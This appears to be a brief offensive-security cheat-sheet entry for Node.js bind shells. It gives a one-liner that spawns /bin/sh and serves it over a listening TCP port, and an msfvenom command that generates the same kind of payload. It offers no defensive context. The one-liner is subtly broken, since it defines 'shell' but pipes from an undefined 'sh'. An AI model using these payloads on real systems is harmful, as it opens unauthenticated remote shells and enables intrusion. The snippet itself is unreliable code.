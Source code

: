 # NodeJS

## 01 - One-liners

```javascript
node -e 'shell = require("child_process").spawn("/bin/sh");
require("net").createServer(function (client) {
  client.pipe(shell.stdin);
  sh.stdout.pipe(client);
  sh.stderr.pipe(client);
}).listen(process.env.<PORT>)'
```

## 02 - Generate via `msfvenom`

```
$ msfvenom -p cmd/unix/bind_nodejs lport=<PORT>
```

---
## References

- [GTFOBins: NodeJS]